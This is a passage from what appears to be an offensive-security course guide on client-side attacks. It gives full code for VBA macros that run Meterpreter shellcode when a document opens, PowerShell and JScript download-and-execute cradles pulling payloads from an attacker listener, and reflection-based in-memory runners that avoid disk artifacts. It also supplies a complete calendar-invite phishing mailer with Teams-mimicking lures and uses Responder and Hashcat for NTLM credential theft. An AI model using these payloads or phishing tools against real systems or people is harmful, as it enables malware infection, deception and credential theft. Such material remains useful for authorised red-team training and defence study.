Any (generic pointer) | Any | ByRef |
| Win32 API | DLL | Purpose |
|---|---|---|
VirtualAlloc | KERNEL32 | Allocate RWX memory for shellcode |
RtlMoveMemory | KERNEL32 | Copy shellcode bytes into allocated memory |
CreateThread | KERNEL32 | Spawn execution thread at shellcode address |
GetUserName | advapi32 | Proof-of-concept API call test |
Methodology
-
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long Function MyMacro() Dim res As Long Dim MyBuff As String * 256 Dim MySize As Long Dim strlen As Long MySize = 256 res = GetUserName(MyBuff, MySize) strlen = InStr(1, MyBuff, vbNullChar) - 1 MsgBox Left$(MyBuff, strlen) End Function
3.5 VBA Shellcode Runner
The VBA shellcode runner allocates a region of executable memory using VirtualAlloc, writes shellcode byte-by-byte into it with RtlMoveMemory, then creates a new thread at that address via CreateThread. The shellcode runs inside the Word process's memory space with no file written to disk. The downside is that closing Word kills the shell.
Shellcode for the VBA runner is generated in vbapplication format so msfvenom outputs a ready-to-paste VBA byte array. The EXITFUNC=thread option is critical — it tells the shellcode to exit the current thread rather than the entire process (Word) when finished.
Methodology
-
# 64-bit (Office 2021/365) sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f vbapplication # 32-bit (Office 2016 default) sudo msfvenom -p windows/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f vbapplication -
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr Function MyMacro() Dim buf As Variant Dim addr As LongPtr Dim counter As Long Dim data As Long Dim res As LongPtr ' Paste Meterpreter shellcode from msfvenom -f vbapplication here buf = Array([shellcode-bytes]) addr = VirtualAlloc(0, UBound(buf), &H3000, &H40) For counter = LBound(buf) To UBound(buf) data = buf(counter) res = RtlMoveMemory(addr + counter, data, 1) Next counter res = CreateThread(0, 0, addr, 0, 0, 0) End Function Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub -
# In Sliver console — ensure profile and listener match the shellcode LHOST/LPORT http -L [listener-ip] --lport [listener-port]
3.6 PowerShell Shellcode Runner (Add-Type)
Instead of embedding shellcode inside the Word document, a VBA macro can use a PowerShell download cradle to fetch and execute a shellcode runner script hosted on the attacker's server. This keeps the macro small and moves the payload off-disk entirely. The PowerShell script uses Add-Type to compile C# code that imports VirtualAlloc, CreateThread, and WaitForSingleObject via P/Invoke, then uses Marshal.Copy to write shellcode into executable memory.
WaitForSingleObject is required to prevent PowerShell from terminating before the implant finishes staging. Without it, the spawned PowerShell child process exits immediately after CreateThread returns, killing the shell before the C2 connection is established.
| Win32 API | C# DllImport Arg Types | Purpose |
|---|---|---|
VirtualAlloc | IntPtr, uint, uint, uint → IntPtr | Allocate RWX memory |
CreateThread | IntPtr, uint, IntPtr, IntPtr, uint, IntPtr → IntPtr | Execute shellcode in new thread |
WaitForSingleObject | IntPtr, UInt32 → UInt32 | Block PowerShell until shell exits |
Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f ps1 -
$Kernel32 = @" using System; using System.Runtime.InteropServices; public class Kernel32 { [DllImport("kernel32")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32", CharSet=CharSet.Ansi)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); } "@ Add-Type $Kernel32 [Byte[]] $buf = [shellcode-byte-array] $size = $buf.Length [IntPtr]$addr = [Kernel32]::VirtualAlloc(0, $size, 0x3000, 0x40) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size) $thandle = [Kernel32]::CreateThread(0, 0, $addr, 0, 0, 0) [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF") -
sudo cp run.ps1 /var/www/html/run.ps1 sudo service apache2 start -
Sub MyMacro() Dim str As String str = "powershell (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.ps1') | IEX" Shell str, vbHide End Sub Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub
3.7 PowerShell Shellcode Runner (UnsafeNativeMethods)
The Add-Type approach triggers the Visual C# command-line compiler (csc.exe), which writes a .cs source file and a compiled .dll assembly to a temporary directory on disk. This creates forensic artifacts detectable by endpoint security. The alternative is to use dynamic lookup via the pre-loaded Microsoft.Win32.UnsafeNativeMethods class inside System.dll, which already exposes GetModuleHandle and GetProcAddress as internal static methods accessible via .NET Reflection.
By using Reflection to call GetModuleHandle and GetProcAddress from an already-loaded assembly, the technique resolves the memory address of any Win32 API without compiling any C# code or writing anything to disk. The LookupFunc helper function encapsulates this pattern and is reused for every API call.
| Method | Disk Artifacts | Technique |
|---|---|---|
Add-Type | Yes — .cs and .dll written to temp | Compiles C# at runtime via csc.exe |
UnsafeNativeMethods Reflection | No | Resolves API addresses from loaded assemblies |
Methodology
-
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() $Assemblies | ForEach-Object { $_.GetTypes() | ForEach-Object { $_ | Get-Member -Static | Where-Object { $_.TypeName.Contains('Unsafe') } } 2> $null } -
function LookupFunc { Param ($moduleName, $functionName) $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1]. Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods') $tmp = @() $assem.GetMethods() | ForEach-Object { If($_.Name -eq "GetProcAddress") { $tmp += $_ } } return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke( $null, @($moduleName)), $functionName)) }
3.8 PowerShell Shellcode Runner (DelegateType Reflection)
Resolving the API address with LookupFunc is only half the solution. The runtime also needs to know the function's argument types and calling convention. This is provided through a DelegateType — a .NET type that acts as the function prototype. Since PowerShell has no delegate keyword, the delegate type must be constructed entirely through Reflection using AssemblyBuilder, ModuleBuilder, TypeBuilder, DefineConstructor, and DefineMethod.
The getDelegateType helper builds an in-memory assembly, defines a MulticastDelegate-derived type, and returns it as a .NET type. This type is then paired with the resolved API address via Marshal.GetDelegateForFunctionPointer to produce a callable delegate — all without touching disk.
Methodology
-
function getDelegateType { Param ( [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void] ) $type = [AppDomain]::CurrentDomain. DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run). DefineDynamicModule('InMemoryModule', $false). DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]) $type. DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func). SetImplementationFlags('Runtime, Managed') $type. DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func). SetImplementationFlags('Runtime, Managed') return $type.CreateType() } -
function LookupFunc { Param ($moduleName, $functionName) $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1]. Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods') $tmp = @() $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp += $_}} return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke( $null, @($moduleName)), $functionName)) } function getDelegateType { Param ( [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void] ) $type = [AppDomain]::CurrentDomain. DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run). DefineDynamicModule('InMemoryModule', $false). DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]) $type. DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func). SetImplementationFlags('Runtime, Managed') $type. DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func). SetImplementationFlags('Runtime, Managed') return $type.CreateType() } # Paste Meterpreter shellcode byte array from msfvenom -f ps1 [Byte[]] $buf = [shellcode-byte-array] $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke( [IntPtr]::Zero, 0x1000, 0x3000, 0x40) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length) $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke( [IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero) [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int32]))).Invoke($hThread, 0xFFFFFFFF) -
sudo cp run2.ps1 /var/www/html/run2.ps1 # VBA cradle in Word macro: # str = "powershell (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run2.ps1') | IEX"
3.9 Proxy-Aware Communication
In enterprise environments, outbound HTTP traffic is frequently routed through a proxy. The Net.WebClient class reads proxy settings from the system's default web proxy configuration (DefaultWebProxy), making it proxy-aware by default for standard user sessions. The proxy server address and port can be verified or overridden at runtime via the .proxy property of the WebClient object.
When shellcode runs in a SYSTEM integrity context (after privilege escalation), no user proxy settings exist because the SYSTEM account has no HKEY_CURRENT_USER registry hive. The download cradle must then manually read proxy settings from a regular user's registry hive under HKEY_USERS and apply them to the DefaultWebProxy before making the download request.
| Scenario | Proxy Behavior | Fix |
|---|---|---|
| Standard user session | Proxy-aware by default | None required |
| Proxy bypass needed | Traffic blocked at firewall | Set $wc.proxy = $null |
| SYSTEM integrity session | No proxy configured; requests bypass proxy | Read proxy from user's HKEY_USERS hive |
| Custom User-Agent needed | Empty by default (stands out) | Set via $wc.Headers.Add('User-Agent', '...') |
Methodology
-
# Check current proxy [System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://[listener-ip]/run.ps1") # Download through proxy (default behavior) $wc = New-Object System.Net.WebClient $wc.DownloadString("http://[listener-ip]/run.ps1") # Bypass proxy entirely $wc = New-Object System.Net.WebClient $wc.proxy = $null $wc.DownloadString("http://[listener-ip]/run.ps1") # Set a realistic User-Agent to blend with browser traffic $wc = New-Object System.Net.WebClient $wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36') $wc.DownloadString("http://[listener-ip]/run.ps1") -
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null $keys = Get-ChildItem 'HKU:\' ForEach ($key in $keys) { if ($key.Name -like "*S-1-5-21-*") { $start = $key.Name.substring(10) break } } $proxyAddr = (Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer [system.net.webrequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr") $wc = New-Object System.Net.WebClient $wc.DownloadString("http://[listener-ip]/run.ps1") -
' In VBA macro, wrap the full SYSTEM proxy cradle or standard cradle: Sub MyMacro() Dim str As String str = "powershell -nop -w hidden -c (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.ps1') | IEX" Shell str, vbHide End Sub
3.10 The Old Switcheroo (AutoText Content Replacement)
When a victim enables macros, they expect to see "decrypted" content. The AutoText technique maintains the deception by replacing the fake encrypted text with convincing content (such as a resume or invoice) at the moment macros execute. This keeps the victim engaged with the document long enough for the reverse shell to connect.
The technique uses Word's AutoText gallery (Quick Parts) to store the replacement content. The VBA macro selects and deletes the fake text, then inserts the stored AutoText entry. The replacement happens instantly from the victim's perspective — the document appears to decrypt. the initial fake encrypted document, and the before-and-after result.

3.10.1 Setup
-

-

Methodology
-
Sub Document_Open() SubstitutePage End Sub Sub AutoOpen() SubstitutePage End Sub Sub SubstitutePage() ' Select all document content and delete it ActiveDocument.Content.Select Selection.Delete ' Insert the stored AutoText entry ("TheDoc") as the replacement ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert _ Where:=Selection.Range, RichText:=True End Sub -
Sub Document_Open() SubstitutePage MyMacro End Sub Sub AutoOpen() SubstitutePage MyMacro End Sub Sub SubstitutePage() ActiveDocument.Content.Select Selection.Delete ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert _ Where:=Selection.Range, RichText:=True End Sub Sub MyMacro() ' Shellcode runner or download cradle here Dim str As String str = "powershell -nop -w hidden -c ""IEX(New-Object Net.WebClient).DownloadString('http://[listener-ip]/run.ps1')""" Shell str, vbHide End Sub
4. Phishing with Calendars
4.1 The iCalendar (ICS) Standard
The iCalendar (ICS) format, defined in RFC 5545, is a plain-text standard for exchanging calendar event data across platforms including Google Calendar, Microsoft Outlook, and Apple Calendar. An ICS file is organized into components — VCALENDAR, VEVENT, VTODO, VJOURNAL — each containing key-value property pairs. Adversaries weaponize ICS invitations because they frequently bypass email filters that inspect attachments rather than calendar metadata.
The fields most commonly manipulated in phishing campaigns are shown below.
| ICS Property | Purpose | Adversary Use |
|---|---|---|
ORGANIZER | Event creator name and email | Spoof a trusted sender (e.g., HR, IT department) |
DTSTART / DTEND | Event start and end times | Set to business hours to increase perceived legitimacy |
DESCRIPTION | Free-text event details | Embed phishing URLs or malware download links |
SUMMARY | Event subject/title | Use convincing subjects like "HR Meeting" or "Security Briefing" |
UID | Unique event identifier | Randomize to appear as a distinct entry and evade dedup filters |
ATTACH | File attachment (base64) | Embed encoded payloads within the ICS itself |
A minimal malicious VEVENT block with manipulated fields looks like this:
BEGIN:VCALENDAR
PRODID:Microsoft Exchange Server 2022
VERSION:2.0
CALSCALE:GREGORIAN
METHOD:REQUEST
BEGIN:VTIMEZONE
TZID:UTC
BEGIN:STANDARD
DTSTART:20241010T073659Z
TZOFFSETFROM:+0000
TZOFFSETTO:+0000
END:STANDARD
END:VTIMEZONE
BEGIN:VEVENT
DTSTART;TZID=UTC:20241010T073059Z
DTEND;TZID=UTC:20241010T083059Z
DTSTAMP:20241010T034159Z
ORGANIZER;CN=HR Team:mailto:[sender-email]
UID:FIXMEUID20241010T034159Z
CREATED:20241010T034159Z
DESCRIPTION:http://[listener-ip]
LAST-MODIFIED:20241010T034159Z
LOCATION:Microsoft Teams Meeting
SEQUENCE:0
STATUS:CONFIRMED
SUMMARY:HR Meeting
TRANSP:OPAQUE
END:VEVENT
END:VCALENDARMethodology
-
sendEmail -s [smtp-server] \ -t [target-email] \ -f [sender-email] \ -u "HR Meeting" \ -o message-content-type=html \ -o message-file=./template.html \ -a iCalendar.ics
4.2 Crafting the Full Calendar Phishing Email
To increase credibility, the email body should mimic a legitimate Microsoft Teams meeting invitation. Copying the Teams HTML layout and replacing only the href links with attacker-controlled URLs produces an email that passes visual inspection. In a real engagement, the phishing domain should use typosquatting — substituting characters such as "1" for "l" or "0" for "o" — to make the URL appear valid at a glance.
The enhanced Teams-style HTML template uses [ATTACKER_URL] placeholders on every href so a single search-and-replace populates all links consistently. Save this as email.html before sending.
<p class=MsoNormal style='background:white'><span style='color:black'>We are reaching out to inform you of an urgent meeting scheduled by the HR Department that requires your immediate attention.</span></p>
<p class=MsoNormal style='background:white'><span style='font-size:18.0pt;font-family:"Segoe UI",sans-serif;color:#252424'>Microsoft Teams meeting</span></p>
<p class=MsoNormal style='background:white'><b><span style='font-size:10.5pt;font-family:"Segoe UI",sans-serif;color:#252424'>Join on your computer or mobile app</span></b></p>
<p class=MsoNormal style='background:white'><a href="http://[listener-ip]" target="_blank"><span style='font-size:10.5pt;font-family:"Segoe UI Semibold",sans-serif;color:#6264A7'>Click here to join the meeting</span></a></p>
<p class=MsoNormal style='background:white'><a href="http://[listener-ip]" target="_blank"><span style='font-size:10.5pt;color:#6264A7'>Learn More</span></a> | <a href="http://[listener-ip]" target="_blank"><span style='font-size:10.5pt;color:#6264A7'>Meeting options</span></a></p>Methodology
-
sendEmail -s [smtp-server] \ -t [target-email] \ -f [sender-email] \ -u "Urgent HR meeting" \ -o message-content-type=html \ -o message-file=./email.html \ -a iCalendar.ics
4.3 Automating the Attack
Manual template crafting is not scalable for campaigns targeting multiple recipients. A Python script can dynamically populate both the ICS template and the HTML email body at runtime, generating unique timestamps, UID values, and per-recipient details automatically. The script below (fakeics.py) reads external template files, substitutes placeholders, and delivers the phishing email via SMTP.
The ICS template (iCalendar_template.ics) uses Python format-string placeholders. Key dynamic fields include {DTSTAMP} for a unique timestamp, {DTSTART}/{DTEND} for meeting times calculated at runtime, {ORGANIZER_EMAIL} for the spoofed sender, and {DESCRIPTION} for the embedded phishing URL. An ATTACH field with base64-encoded content can embed a payload directly in the ICS.
| Template Placeholder | Source | Purpose |
|---|---|---|
{DTSTAMP} | Runtime timestamp | Unique event creation time; used as UID suffix |
{DTSTART} / {DTEND} | Calculated from current UTC time | Meeting set ~5 min in past; 1 hr duration to trigger urgency |
{ORGANIZER_NAME} | Static config | Display name of spoofed sender |
{ORGANIZER_EMAIL} | CLI argument | From address injected into ORGANIZER field |
{DESCRIPTION} | CLI argument (event_url) | Phishing URL embedded in event body |
{ATTENDEES} | generate_attendees() | Adds fake VIP attendees for social proof |
{EVENT_TEXT} | Static config | Lure text in HTML email body |
{EVENT_URL} | CLI argument | Phishing URL in HTML href links |
The complete fakeics.py script:
import time
import codecs
import smtplib
import datetime
import sys
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email.encoders import encode_base64
from email.mime.multipart import MIMEMultipart
from email.utils import COMMASPACE, formatdate
# email settings
EMAIL_SUBJECT = "HR Meeting"
# event settings
EVENT_SUMMARY = "HR meeting"
ORGANIZER_NAME = "HR Team Corp1"
ATTENDEES = ["ceo@[domain]", "cto@[domain]"]
# template settings
EVENT_TEXT = """
Dear colleague,
We would like to inform you about an important HR meeting regarding recent
company-wide changes and policies. Your attendance is highly encouraged as
we will be discussing essential updates that impact all employees.
Topics will include:
- Organizational restructuring
- New employee benefits package
- Updates to leave policies
- Changes to the remote work policy
This meeting is a priority and will be your opportunity to ask any questions
or raise concerns.
We look forward to your participation.
Best regards,
HR Team
"""
def load_template():
with codecs.open("email_template.html", 'r', 'utf-8') as f:
return f.read()
def prepare_template(event_url):
email_template = load_template()
return email_template.format(EVENT_TEXT=EVENT_TEXT, EVENT_URL=event_url)
def load_ics():
with codecs.open("iCalendar_template.ics", 'r', 'utf-8') as f:
return f.read()
def prepare_ics(dtstamp, dtstart, dtend, sender_email, event_url):
ics_template = load_ics()
return ics_template.format(
DTSTAMP=dtstamp,
DTSTART=dtstart,
DTEND=dtend,
ORGANIZER_NAME=ORGANIZER_NAME,
ORGANIZER_EMAIL=sender_email,
DESCRIPTION=event_url,
SUMMARY=EVENT_SUMMARY,
ATTENDEES=generate_attendees()
)
def generate_attendees():
attendees = []
for attendee in ATTENDEES:
attendees.append(
"ATTENDEE;CUTYPE=INDIVIDUAL;ROLE=REQ-PARTICIPANT;PARTSTAT=ACCEPTED;"
"RSVP=FALSE\r\n ;CN={a};X-NUM-GUESTS=0:\r\n mailto:{a}".format(a=attendee)
)
return "\r\n".join(attendees)
def send_email(smtp_server, sender_email, to, event_url):
print('Sending email to: ' + to)
utc_offset = time.localtime().tm_gmtoff / 60
ddtstart = datetime.datetime.now()
dtoff = datetime.timedelta(minutes=utc_offset + 5)
duration = datetime.timedelta(hours=1)
ddtstart = ddtstart - dtoff
dtend = ddtstart + duration
dtstamp = datetime.datetime.now().strftime("%Y%m%dT%H%M%SZ")
dtstart = ddtstart.strftime("%Y%m%dT%H%M%SZ")
dtend = dtend.strftime("%Y%m%dT%H%M%SZ")
ics = prepare_ics(dtstamp, dtstart, dtend, sender_email, event_url)
email_body = prepare_template(event_url)
msg = MIMEMultipart('mixed')
msg['Reply-To'] = sender_email
msg['Date'] = formatdate(localtime=True)
msg['Subject'] = EMAIL_SUBJECT
msg['From'] = sender_email
msg['To'] = to
part_email = MIMEText(email_body, "html")
part_cal = MIMEText(ics, 'calendar;method=REQUEST')
msgAlternative = MIMEMultipart('alternative')
msg.attach(msgAlternative)
ics_atch = MIMEBase('application/ics', ' ;name="%s"' % ("invite.ics"))
ics_atch.set_payload(ics)
encode_base64(ics_atch)
ics_atch.add_header('Content-Disposition', 'attachment; filename="%s"' % ("invite.ics"))
eml_atch = MIMEBase('text/plain', '')
eml_atch.set_payload("")
encode_base64(eml_atch)
eml_atch.add_header('Content-Transfer-Encoding', "")
msgAlternative.attach(part_email)
msgAlternative.attach(part_cal)
mailServer = smtplib.SMTP(smtp_server, 25)
mailServer.ehlo()
mailServer.ehlo()
mailServer.sendmail(sender_email, to, msg.as_string())
mailServer.close()
def main():
if len(sys.argv) != 5:
print("Usage: python fakeics.py <smtp_server> <sender_email> <recipient_email> <event_url>")
sys.exit(1)
smtp_server = sys.argv[1]
sender_email = sys.argv[2]
recipient_email = sys.argv[3]
event_url = sys.argv[4]
send_email(smtp_server, sender_email, recipient_email, event_url)
if __name__ == "__main__":
main()Methodology
-
python3 fakeics.py [smtp-server] [sender-email] [target-email] http://[listener-ip]
4.4 Credential Stealing with Responder
When a victim clicks the phishing link embedded in the calendar invite, Responder intercepts the HTTP authentication request and presents a fake Windows Security login prompt. Responder exploits LLMNR, NBT-NS, and mDNS misconfigurations to poison name resolution and capture NTLMv2 challenge-response hashes. The captured hash can then be cracked offline with Hashcat to recover the plaintext password.
Responder's HTTP server responds to any request directed at the attacker's IP, triggering Windows' built-in NTLM authentication challenge before the victim realizes they are not connecting to Teams. The credential exchange happens transparently and yields a NetNTLMv2 hash immediately upon the victim entering their password.
| Tool | Role | Key Option |
|---|---|---|
| Responder | Intercept HTTP auth, capture NTLMv2 hash | -I [interface] |
| Hashcat | Crack NetNTLMv2 hash offline | -m 5600 (NetNTLMv2 mode) |
| rockyou.txt | Dictionary wordlist for cracking | /usr/share/wordlists/rockyou.txt |
Example captured NTLMv2 hash output from Responder:
[HTTP] NTLMv2 Client : [target-ip]
[HTTP] NTLMv2 Username : [domain]\[user]
[HTTP] NTLMv2 Hash : [user]::[domain]:[challenge]:[response]:[blob]Methodology
-
sudo responder -I [interface] -
python3 fakeics.py [smtp-server] [sender-email] [target-email] http://[listener-ip] -
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -
# Verify credentials via SMB crackmapexec smb [target-ip] -u [user] -p [password] -d [domain]
5. Client-Side Code Execution with JScript
JScript is Microsoft's dialect of JavaScript executed outside the browser through the Windows Script Host (WSH). Because it runs outside the browser sandbox, it bypasses all browser security restrictions and can interact with ActiveX and Win32 APIs — making it a highly effective client-side phishing vector. Real-world malware families including TrickBot and Emotet have used JScript-based droppers. This section covers building JScript droppers from basic execution through fully in-memory shellcode runners backed by C# and Sliver C2.
5.1 JScript Execution on Windows
Windows associates file extensions with default applications. The .ps1 extension opens in Notepad by default, meaning double-clicking a PowerShell script will not execute it. The .js extension, however, is associated with Windows-Based Script Host (wscript.exe) — double-clicking a .js file executes it immediately.
JScript outside the browser can leverage ActiveX objects and the WSH engine. The ActiveXObject constructor instantiates COM objects, while WScript.Shell provides shell execution capability.
| File Extension | Default Handler | Executes on Double-Click? | Attack Use |
|---|---|---|---|
| .ps1 | Notepad.exe | No | Requires bypass |
| .js | wscript.exe | Yes | Direct phishing attachment |
| .vbs | wscript.exe | Yes | Direct phishing attachment |
| .hta | mshta.exe | Yes | HTML Application vector |
Methodology
-
// test.js — minimal ActiveX shell launch var shell = new ActiveXObject("WScript.Shell"); var res = shell.Run("cmd.exe"); -

5.2 JScript Dropper (Download and Execute)
A JScript dropper uses MSXML2.XMLHTTP to perform an HTTP GET request and download a payload, then writes it to disk with ADODB.Stream before executing it via WScript.Shell. This approach works entirely through built-in Windows COM objects with no external dependencies.
The dropper flow: instantiate XMLHTTP → send GET → check HTTP 200 → write binary to ADODB.Stream → SaveToFile → Run executable. The stream's Type = 1 property specifies binary mode (adTypeBinary), and SaveOptionsEnum = 2 forces an overwrite (adSaveCreateOverWrite).
| COM Object | Purpose | Key Methods/Properties |
|---|---|---|
| MSXML2.XMLHTTP | HTTP client | Open(method, url, async), Send(), Status, ResponseBody |
| ADODB.Stream | Binary stream / file I/O | Open(), Type, Write(), Position, SaveToFile(), Close() |
| WScript.Shell | Process execution | Run(cmd) |
Methodology
-
# Generate Sliver implant (Windows x64 executable) sliver > generate --http [listener-ip] --os windows --arch amd64 --save /var/www/html/update.exe # Start HTTP listener sliver > http --lhost [listener-ip] --lport 80 -
sudo systemctl start apache2 # Verify file is in web root ls -la /var/www/html/update.exe -
// dropper.js var url = "http://[listener-ip]/update.exe"; var Object = WScript.CreateObject('MSXML2.XMLHTTP'); Object.Open('GET', url, false); Object.Send(); if (Object.Status == 200) { var Stream = WScript.CreateObject('ADODB.Stream'); Stream.Open(); Stream.Type = 1; // adTypeBinary Stream.Write(Object.ResponseBody); Stream.Position = 0; Stream.SaveToFile("update.exe", 2); // 2 = adSaveCreateOverWrite Stream.Close(); } var r = new ActiveXObject("WScript.Shell").Run("update.exe"); -
sliver > sessions sliver > use [session-id] sliver ([SESSION]) > whoami
5.3 Environment Setup: Visual Studio and Samba Share
C# development requires Visual Studio on a Windows machine. To preserve code between VM reverts, set up a Samba share on Kali and save Visual Studio projects to it. Use Release mode rather than Debug when compiling — debug symbols can trigger security software.
Create projects as Console App (.NET Framework) for executables or Class Library (.NET Framework) for DLLs. Always set the CPU architecture to x64 in Configuration Manager when targeting 64-bit systems.
Methodology
-
# Back up and replace smb.conf sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old sudo nano /etc/samba/smb.conf# /etc/samba/smb.conf content [visualstudio] path = /home/kali/data browseable = yes read only = no -
sudo smbpasswd -a kali sudo systemctl start smbd sudo systemctl start nmbd mkdir /home/kali/data chmod -R 777 /home/kali/data
5.4 Win32 API Calls from C# (P/Invoke)
C# can import Win32 APIs from native DLLs using the [DllImport] attribute via the P/Invoke mechanism. Unlike the PowerShell reflection approach, C# assemblies are compiled before delivery and executed entirely in memory — no temporary source files or Add-Type compilation on the target. The System.Runtime.InteropServices namespace is required for DllImport, and System.Diagnostics is needed for process-related APIs.
